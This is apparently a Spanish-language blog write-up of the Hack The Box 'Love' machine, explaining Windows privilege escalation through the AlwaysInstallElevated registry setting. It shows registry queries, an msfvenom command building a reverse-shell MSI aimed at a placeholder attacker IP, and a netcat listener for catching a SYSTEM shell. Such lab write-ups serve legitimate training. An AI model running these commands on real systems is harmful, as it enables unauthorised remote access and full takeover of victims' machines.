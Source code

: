 ```yaml
---
title: "Love HTB Escalando Privilegio"
layout: post
---
```

![Love HTB](/assets/images/love.png)

<h2>Presentación</h2>
En esta ocasión estaré presentando otra escalada de privilegio en windows y es abusando de: AlwaysInstallElevated, me había tomado tiempo la preparación de algunos writeUp, ya que estuve preparandome para el eJPT el cual logramos obtener, tesis, mudanza y otras movidas como seguir con networking y firewall desde EVE-NG, pronto..  🤯.

<h2>WinPEAS</h2>
En la fase de búsqueda de privilegias, WinPeas nos presenta el siguiente setting:

![Love HTB Escalando Privilegio ](/assets/images/love-1.png)

Este key registry significa que cualquier usuario puede instalar un archivo .msi con privilegios de NT Authority\System.

<h2>Enumeración Manual</h2>

Puedes hacer la solicitud al registro de manera manual con los siguientes comandos:

{% highlight bash %}
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
{% endhighlight %}

el regultado de ambos query debe devolver el valor 1, es decir (value is 0x1), de lo contrario sera imposible explotar dicha vulnerabilidad. 

<h2> ¿Qué hago ahora? </h2>
 
 Podemos generar un archivo malicoiso .msi con msfvenom.
 
 ```
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
 
 ```
 
 
![Love HTB Escalando Privilegio ](/assets/images/love-2.png)

Podemos ponernos en escucha por el puerto especificado en el payload, o hacer uso del exploit/multi/handler.

```
rlwrap nc -nlvp 443
 
```

Transferimos el archivo setup.msi a la máquina víctima, en esta ocasión haciendo uso de certutil.exe, como podemos ver a continuación. 

![Love HTB Escalando Privilegio ](/assets/images/love-3.png)
 
En nuestro caso lo depositamos en la siguiente ruta.
{% highlight bash %}
C:\Windows\Temp\priv\setup.msi
{% endhighlight %}

<h2>PoC</h2>

Ejecutamos el siguiente comando a la vez que nos mantenemos en escucha en nuestra máquina.

![Love HTB Escalando Privilegio ](/assets/images/love-4.png)

al instante recibimos nuestra conexión. 
![Love HTB Escalando Privilegio ](/assets/images/love-5.png)

🖱️_by:_ *@DaVinciRoot*
